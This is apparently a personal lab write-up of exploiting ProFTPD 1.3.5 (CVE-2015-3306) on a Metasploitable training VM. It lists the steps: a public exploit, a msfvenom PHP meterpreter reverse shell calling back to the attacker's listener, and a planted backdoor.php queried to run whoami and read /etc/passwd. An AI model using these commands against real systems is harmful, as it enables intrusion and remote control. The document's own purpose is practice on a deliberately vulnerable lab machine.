 ```yaml
---
layout: post
title: "Metasploitable Series"
categories: ["Hands-on", "Metasploitable"]
tags: "Metasploitable Series"
---
```


# Metasploitable Series
## Issue 1 : ProFTPD 1.3.5

![Nmap Scan](/images/nmap-scan1.png)

The first step that was done was scan the machine using nmap -sV -A

The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

since we get the version number I decided on using _searchsploit_ to locate any existing exploit

### Mode_copy remote command execution

- sudo python 49908.py 192.168.199.130  
  allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
  When running the command we were able to put a test.php in the victim!
  instead of test.php what if i uploaded a _reverse shell_ php?

### Making a backdoor php using venom

we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole

- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run


![Listener](/images/listener.png)


2. Creating reverse shell using msfvenom

- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306

i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:


http://192.168.199.130/backdoor.php?cmd=ls

### What we can find out

WHOAMI
http://192.168.199.130/backdoor.php?cmd=whoami _www-data_

Os Running
http://192.168.199.130/backdoor.php?cmd=uname -a _Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux_

Users in the machine
http://192.168.199.130/backdoor.php?cmd=cat%20/etc/passwd

users found

- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
